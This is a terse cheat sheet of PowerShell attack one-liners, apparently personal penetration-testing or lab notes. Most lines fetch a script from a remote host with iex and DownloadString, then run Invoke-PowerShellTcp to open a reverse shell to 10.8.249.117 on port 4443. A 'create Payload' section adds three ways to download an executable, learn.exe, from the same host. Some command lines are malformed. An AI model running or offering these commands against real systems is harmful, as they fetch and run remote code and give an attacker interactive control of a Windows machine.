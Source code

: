 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8001/learn.exe')"
 
 invoke-webrequest -Uri "http://10.8.249.117:8001/learn.exe"
 

Start-BitsTransfer -Source "http://10.8.249.117:8001/learn.exe"


 
 